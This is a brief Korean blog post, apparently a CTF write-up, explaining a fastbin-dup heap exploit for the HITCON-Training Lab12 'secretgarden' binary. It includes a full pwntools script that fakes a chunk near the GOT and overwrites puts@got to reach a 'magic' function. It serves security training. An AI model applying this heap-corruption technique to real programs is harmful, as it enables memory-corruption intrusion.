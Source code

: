 ```yaml
---
title: "[HITCON-Training]Lab12"
date: 2019-11-18
ctf: HITCON-Training
layout: post
---
```


fastbin dup문제다.

puts@got의 주소보다 낮은 `0x601ffa` 에 사이즈가 0x60되게 할 수 있는 fake chunk를 만들 수 있다. 그러면 데이터가 쓰여지는 영역은 `0x60200a` 이고 이후 puts@got overwrite해주면 된다. 할당해주는 사이즈는 헤더를 제외한 0x50만큼만 해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./secretgarden')
p = process('./secretgarden')
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)

def add(size,name,color):
	sla(':','1')
	sla(':',str(size))
	sa(':',name)
	sla(':',color)

def visit():
	sla(':','2')

def remove(idx):
	sla(':','3')
	sla(':',str(idx))

def clean():
	sla(':','4')

def leave():
	sla(':','5')

add(0x50,'a','a')
add(0x50,'b','b')
remove(0)
remove(1)
remove(0)
add(0x50,p64(0x601ffa),'c') # fake chunk
add(0x50,'e','e')
add(0x50,'f','f')
add(0x50,'A'*22 + p64(e.symbols['magic']),'B') # puts@got 

p.interactive()
```

